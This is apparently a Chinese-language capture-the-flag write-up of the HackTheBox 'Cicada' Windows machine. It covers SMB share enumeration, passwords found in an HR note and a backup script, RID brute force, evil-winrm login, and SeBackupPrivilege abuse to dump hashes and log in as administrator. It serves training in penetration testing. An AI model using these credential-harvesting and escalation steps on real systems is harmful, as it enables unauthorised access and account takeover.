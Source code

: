 ```yaml
---
title: "HTB-Cicada"
date: 2024-09-30
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Nmap Scan

![](./images/image-335.png)

发现靶机存在`smb`网络文件共享服务

![](./images/image-336.png)

使用`smbclient`连接，发现以下的目录

![](./images/image-337.png)

并且在HR的目录下发现了一个`txt`文件

![](./images/image-338.png)

![](./images/image-339.png)

```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

获取一个默认的密码：`Cicada$M6Corpb*@Lp#nZp!8`

## RID BRUTE FORCE

使用Rid爆破枚举用户

![](./images/image-340.png)

使用`enum4linux-ng`通过`Michael wrightson`用户连接到服务器，并且提取各种信息

```
enum4linux-ng -A -u 'Michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
```

![](./images/image-341.png)

发现`david`的密码：`aRt$Lp#7t*VQ!3`

连接smbclient，发现备份脚本

![](./images/image-342.png)

![](./images/image-343.png)

```
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

使用`evil-winrm`登录得到user.txt

![](./images/image-344.png)

## Privilege Escalation

查询当前用户权限

```
*Evil-WinRM* PS C:\Users> whoami /all
```

![](./images/image-345.png)

关于这个SeBackupPrivilege：[Windows Privilege Escalation: SeBackupPrivilege - Hacking Articles](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

根据文章中的步骤

![](./images/image-346.png)

使用pypykatz得到admin的hash值

![](./images/image-347.png)

最后使用`evil-winrm`的hash登录到admin，得到root.txt

![](./images/image-348.png)

## Summary

先是用`smb`免密登录获取到一个明文密码，然后使用`crackmapexec`进行RID爆破用户名。

对用户名进行遍历登录，发现能够进入的SMB账户，并且得到一个包含账户密码备份脚本。

再用`evil-winrm`进行登录下载`sam`和`system`，通过`pypykatz`获取到admin的hash值用来进行hash登录，获取到`Administrator`权限

Windows就是让人头大。。。
